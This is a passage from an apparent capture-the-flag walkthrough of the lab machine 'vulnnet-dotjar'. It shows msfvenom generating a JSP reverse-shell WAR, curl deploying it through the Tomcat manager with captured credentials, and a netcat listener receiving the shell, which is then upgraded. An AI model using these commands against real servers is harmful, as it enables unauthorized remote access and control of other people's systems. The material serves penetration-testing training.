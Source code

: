 ```bash
GUI access is disabled for security reasons.
 
4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>

</web-app>

```

## Reverse shell (Java)
- [Java Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#java)

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.0.145 LPORT=1234 -f war > reverse.war

Payload size: 1102 bytes
Final size of war file: 1102 bytes
```

- Upload using command line (`manager-script` role is only enabled)

```bash
$ curl -u webdev -T reverse.war 'http://10.10.159.186:8080/manager/text/deploy?path=/'
Enter host password for user 'webdev':
OK - Deployed application at context path [/reverse.war]
```

### Shell access

- After uploading via command line, visit the URL in browser: `http://<MACHINE_IP>:8080/reverse.war`

- Simultaneously listen using netcat on the appropriate port. Once you get a shell, upgrade it.

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.0.145] from (UNKNOWN) [10.10.159.186] 53802
whoami
web
python3 -c 'import pty; pty.spawn("/bin/bash")'
web@vulnnet-dotjar:/$ ^Z
[1]+  Stopped                 nc -lvnp 1234

$ stty raw -echo; fg
nc -lvnp 1234

web@vulnnet-dotjar:/$ id
uid=1001(web) gid=1001(web) groups=1001(web)
```

## Linpeas
